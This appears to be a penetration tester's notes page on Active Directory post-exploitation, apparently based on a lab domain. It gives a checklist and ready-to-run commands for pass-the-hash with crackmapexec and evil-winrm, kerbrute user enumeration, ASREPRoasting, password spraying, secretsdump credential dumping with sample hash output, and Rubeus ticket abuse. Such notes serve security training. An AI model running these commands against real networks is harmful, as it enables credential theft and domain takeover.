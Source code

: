 # Post-Exploitation

You should approach to first machine in AD as regular standalone windows machine. Lateral movement or privilege escalation as well.

You can do post exploitation steps as follows:

Check groups where the user is in. Check the user in some privileged group.

Check another users in the domain.

Search files in the system for finding passwords, important notes and information, mail etc.

Check services on the system.

Some services contains cleartext passwords, hashes in some files.

Extract hashes, secrets, kerberos tickets with mimikatz etc. (requires system shell)

{% content-ref url="../password-attacks/password-extraction.md" %}
[password-extraction.md](../password-attacks/password-extraction.md)
{% endcontent-ref %}

Try pass the hash methods like using psexec or crackmapexec from impacket, evil-winrm, xfreerdp etc. (If the target user has not Administrator rights, you cannot get shell with impacket).

Try cracking extracted hashes.

{% content-ref url="../password-attacks/password-cracking/" %}
[password-cracking](../password-attacks/password-cracking/)
{% endcontent-ref %}

Check SPNs. If there is SPN in system, try extract and crack it.

{% content-ref url="powershell-scripts/getuserspns.ps1.md" %}
[getuserspns.ps1.md](powershell-scripts/getuserspns.ps1.md)
{% endcontent-ref %}

Check GMSA. If there is gmsa account in the system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

If you have cleartext password you can use Spray-Passwords.ps1 to identify the another user is using the same password.

{% content-ref url="powershell-scripts/spray-passwords.ps1.md" %}
[spray-passwords.ps1.md](powershell-scripts/spray-passwords.ps1.md)
{% endcontent-ref %}

Check the user has capabilities for exploitable GPO.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

You can try recent AD exploits to get domain admin privileges.

## Crackmapexec

```
# pass the hash
crackmapexec smb --local-auth 10.11.1.0/24 -H ee0c207898a5bccc01f38115019ca2fb -u Administrator
```

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32) (2).png>)

## **ASREPRoasting**

> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
>
> Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames

### Impacket-GetNPUsers

```
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format john
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat
```

![](<../../.gitbook/assets/image (40).png>)

Crack the hash with whatever format you chose

```
svc-admin : management2005
```

## Impacket-secretsdump

> We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that a user account (that is synced with the domain controller) has to offer

```
impacket-secretsdump backup@spookysec.local

Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
.
.
.
.
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

This command dumps SAM hashes using the the Administrator's hash as a PTH method rather than entering a password

```
impacket-secretsdump Administrator@10.11.1.123 -hashes '3fee04b01f59a1001a366a7681e95699:3fee04b01f59a1001a366a7681e95699'
```

## Pass-The-Hash

### Evil-WinRM

> method of attack could allow us to authenticate as the user without the password

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

## Rubeus

{% code overflow="wrap" %}
```bash
# gets tgt of machine account
.\Rubeus.exe tgtdeleg /nowrap
# decode it to .kirbi file
cat b64hash | base64 -d > m.kirbi
# convert ticket to ccache file
impacket-ticketconverter m.kirbi m.ccache
export KRB5CCNAME=`pwd`/m.ccache
klist
# syncronize time just in case
sudo ntpdate -u IP
# dump hashes
impacket-secretsdump domain.local/DC-NAME\$@dc-name.domain.local -dc-ip domain.local -no-pass -k
```
{% endcode %}
